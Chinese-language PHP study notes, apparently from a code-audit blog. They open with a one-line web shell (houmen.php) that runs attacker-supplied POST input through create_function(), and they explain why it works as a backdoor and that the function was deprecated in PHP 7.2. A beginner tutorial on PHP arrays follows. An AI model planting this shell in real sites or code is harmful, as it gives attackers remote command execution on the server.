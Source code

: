 ### 打造后门

houmen.php

```
<?php $func =create_function('',$_POST['cmd']);$func();?>
```

`create_function()`是可以利用当后门的函数，实际上它是通过执行`eval`实现(此处相当于一句话木马)，访问如下：

![img](http://cdn.ayusummer233.top/img/1937992-20200528140551223-1027125403.png)



### create_function()被高版本 PHP 废弃

从`PHP 7.2.0`开始，`create_function()`被废弃

分类: [PHP代码审计](https://www.cnblogs.com/zzjdbk/category/1774962.html)



## PHP数组

**数组能够在单独的变量名中存储一个或多个值。**

数组在单个变量中存储多个值：

```php
<?php
$cars=array("porsche","BMW","Volvo");
echo "I like " . $cars[0] . ", " . $cars[1] . " and " . $cars[2] . ".";
?>
```

### 什么是数组？

数组是特殊的变量，它可以同时保存一个以上的值。

如果您有一个项目列表(例如汽车品牌列表) ，在单个变量中存储这些品牌名称是这样的：

```
$cars1="porsche";
$cars2="BMW";
$cars3="Volvo";
```

不过，假如您希望对变量进行遍历并找出特定的那个值？或者如果您需要存储 300 个汽车品牌，而不是 3 个呢？

解决方法是创建数组！

数组能够在单一变量名中存储许多值，并且您能够通过引用索引号来访问某个值。

### 在 PHP 中创建数组

在 PHP 中， array() 函数用于创建数组：

```
array();
```

